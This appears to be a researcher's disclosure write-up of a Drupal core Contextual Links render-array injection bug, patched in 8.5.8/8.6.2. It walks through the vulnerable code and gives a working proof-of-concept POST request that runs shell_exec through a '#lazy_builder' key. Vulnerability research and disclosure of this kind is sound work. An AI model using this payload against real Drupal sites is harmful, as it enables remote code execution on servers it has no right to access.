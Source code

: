 ```yaml
---
layout: post
title: Drupal Core PHP Code Injection
categories: security
---
```


# Drupal Core PHP Code Injection

## Drupal Overview and History

Drupal is a content management system. In March of 2018, a vulnerability dubbed Drupalgeddon2 was announced ([CVE-2018-7600](https://nvd.nist.gov/vuln/detail/cve-2018-7600), [SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)) that enabled an unauthenticated attacker to achieve remote code execution on most versions of Drupal with default configuration.

The vulnerability was caused by Drupal's [render arrays](https://www.drupal.org/docs/drupal-apis/render-api/render-arrays). Render arrays are just ordinary PHP arrays, except that keys that start with # are given special processing that allow code execution by design. These generally aren't meant to come from user input, so the Drupal maintainers patched this by implementing a broad [RequestSanitizer](https://github.com/drupal/drupal/blob/8.6.1/core/lib/Drupal/Core/Security/RequestSanitizer.php). The sanitizer runs early in the page load and strips array keys that begin with # from the query string.

Additional paths for exploitation were found in April 2018 ([SA-CORE-2018-004](https://www.drupal.org/sa-core-2018-004)) and the RequestSanitizer was expanded to process the request body and cookies as well.

## Search
The knowledge that something like Drupalgeddon2 could be lurking in the codebase for so long motivated me to begin looking for my own RCE in Drupal in my free time.

I made a spreadsheet of every URL route in Drupal and initially focused on routes available to unauthenticated users. After a few weeks without success, I started looking at routes that required low-level user permissions, and pretty quickly found an issue in the core Contextual Links module.

## Vector
The [Contextual Links module](https://www.drupal.org/docs/8/core/modules/contextual/working-with-contextual-links) enables users to edit content or perform other tasks while browsing their site without navigating to the administrator UI.

![Person using contextual links module](/assets/contextual-menu.gif "Image from Drupal.org under the <a href='https://www.drupal.org/terms'>Creative Commons License, Attribution-ShareAlike 2.0</a>")

As the functionality is used in several different contexts, the controller that handles rendering them is very generic.

```php
  /**
   * Returns the requested rendered contextual links.
   *
   * Given a list of contextual links IDs, render them. Hence this must be
   * robust to handle arbitrary input.
   */
  public function render(Request $request) {
    $ids = $request->request->get('ids');
    if (!isset($ids)) {
      throw new BadRequestHttpException(t('No contextual ids specified.'));
    }

    $rendered = [];
    foreach ($ids as $id) {
      $element = [
        '#type' => 'contextual_links',
        '#contextual_links' => _contextual_id_to_links($id),
      ];
      $rendered[$id] = $this->renderer->renderRoot($element);
    }

    return new JsonResponse($rendered);
  }
```

We can see that user input from the `ids` parameter in the request POST body is processed by `_contextual_id_to_links` before being added to a render array. The render array is then rendered and the result is returned to the user. Let's look at `_contextual_id_to_links`.

```php
/**
 * Unserializes the result of _contextual_links_to_id().
 *
 * @see _contextual_links_to_id
 *
 * @param string $id
 *   A serialized representation of a #contextual_links property value array.
 *
 * @return array
 *   The value for a #contextual_links property.
 */
function _contextual_id_to_links($id) {
  $contextual_links = [];
  $contexts = explode('|', $id);
  foreach ($contexts as $context) {
    list($group, $route_parameters_raw, $metadata_raw) = explode(':', $context);
    parse_str($route_parameters_raw, $route_parameters);
    $metadata = [];
    parse_str($metadata_raw, $metadata);
    $contextual_links[$group] = [
      'route_parameters' => $route_parameters,
      'metadata' => $metadata,
    ];
  }
  return $contextual_links;
}
```

Here we see the user-provided id is split into three parts separated by :. The latter two parts are then passed through the PHP [parse_str](https://www.php.net/manual/en/function.parse-str.php) which treats them as a URL-encoded query string.

At this point it might seem like all we need to do is pass a double-URL-encoded query string in for one of these parameters and we'll have our render array injection, but if I recall correctly, that didn't work. However, the metadata parameter receives further processing later on that provides another avenue.

```php
/**
 * Implements hook_contextual_links_view_alter().
 *
 * @see \Drupal\contextual\Plugin\views\field\ContextualLinks::render()
 */
function contextual_contextual_links_view_alter(&$element, $items) {
  if (isset($element['#contextual_links']['contextual'])) {
    $encoded_links = $element['#contextual_links']['contextual']['metadata']['contextual-views-field-links'];
    $element['#links'] = Json::decode(rawurldecode($encoded_links));
  }
}
```

By passing a JSON encoded array for the `contextual-views-field-links` subparameter of `metadata`, we can inject a render array while evading the `RequestSanitizer`.

## Proof of Concept
The POC below requires the ‘Access Contextual Links' permission to be granted to unauthenticated users.

```http
POST /contextual/render HTTP/1.1
Host: local.test
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 906

ids[]=contextual::contextual-views-field-links=%257B%250A%2520%2520%2520%2520%2522asdf%2522%253A%250A%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522title%2522%253A%2520%257B%2522%2523lazy_builder%2522%253A%2520%255B%2522shell_exec%2522%252C%2520%255B%2522touch%2520%252Ftmp%252Fhellofromviews%2522%255D%255D%257D%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522href%2522%253A%2520%2522asdf%2522%252C%250A%2520%2520%2520%2520%2520%2520%2520%2520%2522attributes%2522%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522class%2522%253A%255B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2522use-ajax%2522%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%255D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%257D%250A%257D
```

The payload corresponds to a double-URL-encoding of this:

```json
{
    "asdf":
    {
        "title": {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]},
        "href": "asdf",
        "attributes":
        {
            "class":[
                "use-ajax"
            ]
        }
    }
}
```

When the array is rendered, shell_exec is called and a file is created in the tmp directory as proof.

## Patch
The issue was patched by returning an HMAC code along with the contextual links id list at the time it's generated, and then taking that code as an additional parameter at render time and validating it.

## Timeline
* August 29, 2018 08:50 PM - Reported to Drupal security team
* August 30, 2018 12:57 AM - Report validated by Drupal security team
* October 17, 2018 - Fix released in Drupal 8.5.8 and Drupal 8.6.2 ([DRUPAL-SA-CORE-2018-006](https://www.drupal.org/sa-core-2018-006))

